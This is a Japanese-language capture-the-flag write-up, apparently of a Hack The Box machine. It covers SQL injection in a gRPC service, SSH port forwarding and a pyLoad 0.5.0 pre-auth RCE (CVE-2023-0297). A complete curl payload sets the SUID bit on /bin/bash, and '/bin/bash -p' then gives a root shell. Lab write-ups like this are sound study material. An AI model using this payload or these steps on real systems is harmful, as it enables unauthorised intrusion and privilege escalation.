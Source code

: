 #### nmap
![](/images/20230901054025.png)

Webにアクセスすると文字化けして表示されない
![](/images/20230901054100.png)

port50051について検索するとgRPCで使用されるポートらしい
https://documentation.softwareag.com/webmethods/compendiums/v10-11/C_API_Management/index.html#page/api-mgmt-comp/to-grpc_configuration_7.html

下のページにはSQL Injectionの脆弱性があることがかかれている
https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9

grpcを使うためのツールをダウンロードする
https://github.com/fullstorydev/grpcui/releases/tag/v1.3.1

```shell
./grpcui -plaintext 10.10.11.214:50051
```
![[Pasted image 20230901055146.png]]

コマンドを実行すると自動的にWebページが開く
![](/images/20230901055330.png)

デフォルトのユーザー名とパスワードを検索するとadmin/adminになっている
![](/images/20230901055439.png)

![](/images/20230901060439.png)


ID番号とtokenが表示されるのでこれを「getInfo」の画面で入力する
![](/images/20230901060635.png)

ここでBurp suiteを起動して受信する
（デフォルトのプロキシ設定ではうまく受信しなかったのでFoxyproxyを使った）
Repeateに送って検証する
![](/images/20230901061158.png)

「’」を入力してSQL Injectionの確認をする
200で帰ってくるので脆弱性があることが確認できる

![](/images/20230901203446.png)

![](/images/20230901204029.png)

union selectでユーザー名とパスワード表示させる
![](/images/20230901204310.png)

#### SSH接続

判明したユーザー名とパスワードでSSH接続をする

![](/images/20230901204530.png)

#### 権限昇格

「sudo -l」やlinpeas.shなどを試しても特に何も得られない
開いているポートを確認してみるとローカルで8000番ポートが開いているのが分かる
![](/images/20230901204809.png)

sshでローカルポートフォワーディングを実施する（新しいコンソールで実施した方が確実）
```shell
ssh -L 8888:127.0.0.1:8000 sau@10.10.11.214
```

![](/images/20230901213316.png)

ブラウザに「127.0.0.1:8888」と入力すると「pyLoad」の画面が出てくる
![](/images/20230901213448.png)

pyloadのバージョンを確認する

![](/images/20230901213646.png)

「pyload 0.5.0 exploit」で検索するとRCEが見るかる
https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad

このページの「Exploit Code」を編集して使う
実行後に「/bin/bash -p」を実行するとルートになれる
```shell
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

```shell
/bin/bash -p
```

![](/images/20230901214029.png)

